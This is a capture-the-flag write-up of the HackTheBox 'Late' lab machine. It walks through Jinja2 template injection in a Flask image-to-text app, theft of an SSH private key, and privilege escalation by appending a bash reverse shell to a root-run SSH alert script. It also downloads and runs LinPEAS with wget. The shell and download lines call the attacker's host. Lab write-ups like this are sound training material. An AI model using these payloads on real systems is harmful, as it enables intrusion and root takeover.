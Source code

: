 ```yaml
---
layout: post
title: HackTheBox - Late
category: HackTheBox
date: 2022-07-06 11:15 +0300
---
```


![Machine info card](/assets/hackthebox/late/Late.png){:height="414px" width="615px"}

# Configuration

If you're using your own machine like me, you have to access HTB network via `OpenVPN`:

```zsh
sudo openvpn lab_access_file.ovpn
```

It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.

```zsh
echo '10.10.11.156  late.htb' | sudo tee -a /etc/hosts
```

# Reconnaissance

## nmap scan

```zsh
nmap -sCV -oN nmap_scan late.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see basic `ssh` and `http` here, let's explore the web application.

## Web application

![Web application](/assets/hackthebox/late/webapp.png)

In web apps, we can use `whatweb` tool to look which technologies are used in app.
```zsh
whatweb late.htb
```

```
http://late.htb [200 OK] Bootstrap[3.0.0], Country[RESERVED][ZZ], Email[#,support@late.htb], Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.156], JQuery[1.10.2], Meta-Author[Sergey Pozhilov (GetTemplate.com)], Script, Title[Late - Best online image tools], nginx[1.14.0]
```

We have a basic home page and a contact page with nothing interesting. Also, on home page we have a link to `images.late.htb`, lets modify our `/etc/hosts` with that address to look at it:

> 10.10.11.156  late.htb images.late.htb

Now we navigate to images.late.htb:

![Web application subdomain](/assets/hackthebox/late/subdomain.png)

It is an image to text converter, we can see an `upload form` here, let's check how it works. It allows only `png` or `jpg` file formats. Generate some text converted into image, I used [this site](https://www.345tool.com/converter/text-to-image-converter) here. Then, upload the image and it will return result in a txt file.

![Flask app results](/assets/hackthebox/late/flask_app_results.png)

# user.txt

## Enumeration

Note that it is a `Flask` application, it means `Python` is used here. I've found that Flask uses `Jinja2`, which allows us to try python code injections. Let's try basic injection by putting `{% raw %}{{7*'7'}}{% endraw %}` into image.

![Code injection](/assets/hackthebox/late/code_injection.png)

It works! Now we have to test and prepare our payload... 

## Exploit

After 2 hours I found right font and font size, I think it's not worth for time I spent, seriously... Use Verdana font with size 24, it worked for me. At first, we try to read `/etc/passwd`.

![etc passwd](/assets/hackthebox/late/etc_passwd.png)

We can see an interesting line here:

```
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Some user has a home directory and can log in. We can try to find `ssh` private key.

![We got a private key](/assets/hackthebox/late/private_key.png)

We're lucky! Now we copy key to file and log in! Don't forget to change file permissions.

```zsh
chmod 600 id_rsa
ssh -i id_rsa svc_acc@late.htb
cat user.txt
```

# root.txt

## Explore for privilige escalation

Let's upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and try to get possible privilege escalation vectors. On our machine we use `Python` to start a simple web server.

```zsh
python -m http.server 8000
```

On victim machine we use `wget` to download the script. Then, we change permissions to a file to make it executable and run it.

```bash
wget http://10.10.16.14:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Possible privesc vector](/assets/hackthebox/late/priv_esc_vector.png)

LinPEAS has found an interesting file for us, let's read it and understand what it does.

```bash
cat /usr/local/sbin/ssh-alert.sh
```

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

We can see that the script runs every time when a ssh connection is established. The file is not writtable, but if we list attributes of it, we will see that we can `append` to the file.

```bash
lsattr ssh-alert.sh
```

```
-----a--------e--- ssh-alert.sh
```

We have to check who runs the script. When we just connected via ssh, we listed the home directory and saw an executable called `pspy`, this is a tool for `monitor` processes without root privileges. Execute the tool and open another terminal, then connect again via ssh, you will see the events.

![Monitor processes](/assets/hackthebox/late/monitor_processes.png)

We can see that ssh-alert.sh runs with `UID 0`, which means that file executes by root, luckly for us! 

## Privilege escalation

Now we know that the file is executed by root, so we can do a lot of things, for example, get a reverse shell. Let's append a simple bash reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Note that we can't directly write in the file. Then we check if everything is good.

```bash
echo '/bin/bash -i >& /dev/tcp/10.10.16.14/6185 0>&1' >> /usr/local/sbin/ssh-alert.sh 
cat /usr/local/ssh-alert.sh
```

Open an another terminal to set up a listener:

```zsh
nc -lnvp 6185
```

Finally, connect via ssh to trigger the script.

```zsh
ssh -i id_rsa svc_acc@late.htb
```

Then, on our listener terminal we will get the connection from `root`! We got it!

![We got a root](/assets/hackthebox/late/root.png)

# Conclusion

It was a very interesting box, but searching for a font and a font size was terrible, really. It was cool to learn about Flask and pspy.

Thank you for reading, I hope it was useful for you ❤️

